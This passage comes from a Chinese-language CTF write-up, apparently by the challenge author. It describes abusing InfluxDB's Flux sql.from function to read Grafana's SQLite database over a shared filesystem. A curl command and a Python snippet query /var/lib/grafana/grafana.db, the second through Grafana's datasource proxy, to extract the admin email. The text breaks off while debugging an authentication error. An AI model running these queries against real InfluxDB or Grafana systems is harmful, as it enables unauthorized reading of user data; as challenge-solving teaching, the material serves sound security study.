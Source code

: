 这个`no such file or directory`就很精髓，完全不像是访问不到文件系统的样子。那这乐子就大了，让我们把文件名改成实际的`grafana.db`看看：

```bash
$ curl  --header "Authorization: Token token" http://127.0.0.1:8086/api/v2/query?org=org -XPOST --header "Content-Type: application/vnd.flux" --data '
import "sql"
sql.from(
    driverName: "sqlite3",
    dataSourceName: "file:/var/lib/grafana/grafana.db",
    query: "SELECT * FROM user",
)'
{"code":"internal error","message":"panic: column is_service_account:int is not of type bool"}
```

乐，不仅读到了，甚至还没做好bool的类型转换所以报错了。这样基本的出题思路就有了：用InfluxDB读Grafana的配置文件，是不是很震撼？（甚至用`sql.to`理论上还能写配置文件，更震撼了，但可惜这个点不好出题）

到这一步大概花了我一个下午的时间来遍历可疑的API。不过作为选手，你已经知道最终目标是在Grafana的管理员邮箱，邮箱存储在配置文件里，而且提示了InfluxDB和Grafana共享文件系统，所以思路应该会更集中一些。

这样一来就可以写出利用脚本：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/api/v2/query?org=org',
    auth=('geekgame', 'geekgame'),
    headers={
        'Content-Type': 'application/vnd.flux',
    },
    data='''
        import "sql"
        sql.from(
            driverName: "sqlite3",
            dataSourceName: "file:/var/lib/grafana/grafana.db",
            query: "SELECT email FROM user WHERE login='admin'",
        )
    '''
).text
```

然后就发现事情不对，报错 `Authentication to data source failed`。

这个错看起来是Grafana端报的，那就在源码里搜索一下：

![image-20251026031314806](assets/image-20251026031314806.png)
